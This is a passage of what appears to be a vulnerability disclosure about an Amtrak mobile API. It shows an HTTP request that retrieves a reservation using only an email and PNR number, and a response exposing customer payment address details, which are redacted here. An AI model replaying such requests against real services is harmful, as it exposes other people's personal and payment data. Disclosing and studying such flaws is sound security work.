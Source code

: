 ~~~
"segmentServiceStatus": "false",
"trainNumber": "236",
…omitted for brevity…
"multiRideInfo": null,
"pnrNumber": "24281A",
"pnrType": 0,
"totalFare": {
…omitted for brevity…
"rateQualifier": [
],
"totalFare": 17.0
},
"type": "OneWay"
}
],
"userId": "hdjs@jdjdk.com"
}

~~~

Using the PNR information from the above response, the following request resulted in exposure of the customer’s partial payment information:

**Request**

~~~
POST /MobileApps/RetrieveReservationV4 HTTP/1.1
Host: rider.amtrak.com
appType: IOS
Accept: */*
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE

{
"email": "hdjs@jdjdk.com",
"versionNumber": "3.1.7",
"appType": "IOS",
"pnrNumber": "24281A"
}

~~~

**Response**

~~~

HTTP/1.1 200 OK
Content-Type: application/json

…omitted for brevity…
{
"PNRNumber": "24281A",
…omitted for brevity…
"payments": [
{
"address": {
"address1": "[REDACTED]",
"address2": null,
"addressType": null,
"city": "[REDACTED]",
"country": null,
"firstName": null,
"lastName": null,
"state": {
"code": "NY",
"name": null
},
~~~